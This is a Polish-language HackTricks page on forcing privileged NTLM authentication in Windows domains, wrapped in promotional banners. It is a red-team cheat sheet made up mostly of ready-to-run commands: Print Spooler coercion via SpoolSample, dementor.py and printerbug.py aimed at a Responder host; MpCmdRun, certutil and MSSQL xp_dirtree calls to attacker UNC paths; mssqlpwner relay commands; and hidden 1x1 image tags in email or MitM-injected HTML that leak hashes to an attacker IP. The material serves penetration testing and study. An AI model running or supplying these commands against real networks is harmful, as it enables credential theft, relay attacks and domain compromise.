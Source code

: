 # Wymuszenie uprzywilejowanej autoryzacji NTLM

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) to **zbiór** **wyzwalaczy zdalnej autoryzacji** napisanych w C# przy użyciu kompilatora MIDL, aby uniknąć zależności od stron trzecich.

## Nadużycie usługi Spooler

Jeśli usługa _**Print Spooler**_ jest **włączona**, możesz użyć już znanych poświadczeń AD, aby **zażądać** od serwera drukarek kontrolera domeny **aktualizacji** dotyczącej nowych zadań drukowania i po prostu powiedzieć mu, aby **wysłał powiadomienie do jakiegoś systemu**.\
Zauważ, że gdy drukarka wysyła powiadomienie do dowolnych systemów, musi **uwierzytelnić się** w tym **systemie**. Dlatego atakujący może sprawić, że usługa _**Print Spooler**_ uwierzytelni się w dowolnym systemie, a usługa **użyje konta komputera** w tej autoryzacji.

### Znajdowanie serwerów Windows w domenie

Używając PowerShell, uzyskaj listę komputerów z systemem Windows. Serwery są zazwyczaj priorytetowe, więc skupmy się na nich:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Finding Spooler services listening

Używając nieco zmodyfikowanego @mysmartlogin (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), sprawdź, czy usługa Spooler nasłuchuje:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Możesz również użyć rpcdump.py na Linuxie i szukać protokołu MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Poproś usługę o uwierzytelnienie przeciwko dowolnemu hoście

Możesz skompilować[ **SpoolSample stąd**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
lub użyj [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) lub [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py), jeśli jesteś na Linuxie
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Łączenie z Nieograniczoną Delegacją

Jeśli atakujący już skompromitował komputer z [Nieograniczoną Delegacją](unconstrained-delegation.md), atakujący mógłby **sprawić, że drukarka uwierzytelni się w tym komputerze**. Z powodu nieograniczonej delegacji, **TGT** **konta komputera drukarki** będzie **zapisane w** **pamięci** komputera z nieograniczoną delegacją. Ponieważ atakujący już skompromitował ten host, będzie w stanie **pobrać ten bilet** i go wykorzystać ([Pass the Ticket](pass-the-ticket.md)).

## Wymuszenie uwierzytelnienia RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Atak `PrivExchange` jest wynikiem luki znalezionej w **funkcji `PushSubscription` serwera Exchange**. Ta funkcja pozwala serwerowi Exchange na wymuszenie przez dowolnego użytkownika domeny z skrzynką pocztową uwierzytelnienia do dowolnego hosta dostarczonego przez klienta za pośrednictwem HTTP.

Domyślnie **usługa Exchange działa jako SYSTEM** i ma nadmierne uprawnienia (konkretnie, ma **uprawnienia WriteDacl na domenie przed 2019 rokiem Cumulative Update**). Ta luka może być wykorzystana do umożliwienia **przekazywania informacji do LDAP i następnie wyodrębnienia bazy danych NTDS domeny**. W przypadkach, gdy przekazywanie do LDAP nie jest możliwe, ta luka może być nadal używana do przekazywania i uwierzytelniania do innych hostów w obrębie domeny. Udane wykorzystanie tego ataku zapewnia natychmiastowy dostęp do administratora domeny z dowolnym uwierzytelnionym kontem użytkownika domeny.

## Wewnątrz Windows

Jeśli już jesteś wewnątrz maszyny Windows, możesz wymusić Windows na połączenie z serwerem przy użyciu uprzywilejowanych kont za pomocą:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Lub użyj tej innej techniki: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Możliwe jest użycie certutil.exe lolbin (podpisany przez Microsoft) do wymuszenia uwierzytelniania NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Jeśli znasz **adres e-mail** użytkownika, który loguje się na maszynie, którą chcesz skompromitować, możesz po prostu wysłać mu **e-mail z obrazem 1x1** takim jak
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
i gdy to otworzy, spróbuje się uwierzytelnić.

### MitM

Jeśli możesz przeprowadzić atak MitM na komputer i wstrzyknąć HTML na stronie, którą będzie wizualizował, możesz spróbować wstrzyknąć obrazek taki jak poniżej na stronie:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Jeśli możesz przechwycić [wyzwania NTLMv1, przeczytaj tutaj, jak je złamać](../ntlm/#ntlmv1-attack).\
_Pamiętaj, że aby złamać NTLMv1, musisz ustawić wyzwanie Respondera na "1122334455667788"_

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

